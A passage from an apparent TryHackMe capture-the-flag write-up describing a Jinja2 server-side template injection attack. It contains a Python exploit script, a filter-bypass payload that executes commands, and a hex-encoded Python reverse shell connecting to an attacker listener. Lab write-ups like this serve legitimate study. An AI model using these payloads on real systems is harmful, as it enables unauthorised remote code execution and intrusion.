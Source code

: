 ```py
        else:
            finalPayload += character

    requestResult = requests.get(url + finalPayload, cookies=cookie)

    if requestResult.status_code == 404:
        soup = BeautifulSoup(requestResult.text, 'html.parser')
        payloadResult = soup.b
        print(f'[+] Payload result:\n{payloadResult.get_text().strip()}')
    else:
        print(f'[-] The payload failed: {finalPayload}')

if __name__ == '__main__':
    main()
```

**After I finished this python script, I found a bypass that bypasses most common filters in [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---filter-bypass):**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/VulnNet-dotpy/images/Pasted%20image%2020221227224459.png)

**Let's try that:**
```py
payload = """{{request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')('os')|attr('popen')('id')|attr('read')()}}"""
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/VulnNet-dotpy]
└─# python3 exploit.py
[+] Payload result:
uid=1001(web) gid=1001(web) groups=1001(web)
```

**We finally can execute code!**

**Let's get a Python reverse shell!**

> Note: The payload needs to be hex encoded.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/VulnNet-dotpy/images/Pasted%20image%2020221227234454.png)

- Setup a `nc` listener:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/VulnNet-dotpy]
└─# nc -lnvp 443        
listening on [any] 443 ...
```

- Run the payload:

```py
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('\x70\x79\x74\x68\x6f\x6e\x33\x20\x2d\x63\x20\x27\x69\x6d\x70\x6f\x72\x74\x20\x73\x6f\x63\x6b\x65\x74\x2c\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2c\x6f\x73\x3b\x73\x3d\x73\x6f\x63\x6b\x65\x74\x2e\x73\x6f\x63\x6b\x65\x74\x28\x73\x6f\x63\x6b\x65\x74\x2e\x41\x46\x5f\x49\x4e\x45\x54\x2c\x73\x6f\x63\x6b\x65\x74\x2e\x53\x4f\x43\x4b\x5f\x53\x54\x52\x45\x41\x4d\x29\x3b\x73\x2e\x63\x6f\x6e\x6e\x65\x63\x74\x28\x28\x22\x31\x30\x2e\x39\x2e\x30\x2e\x32\x35\x33\x22\x2c\x34\x34\x33\x29\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x30\x29\x3b\x20\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x31\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x32\x29\x3b\x69\x6d\x70\x6f\x72\x74\x20\x70\x74\x79\x3b\x20\x70\x74\x79\x2e\x73\x70\x61\x77\x6e\x28\x22\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x22\x29\x27')|attr('read')()}}
```
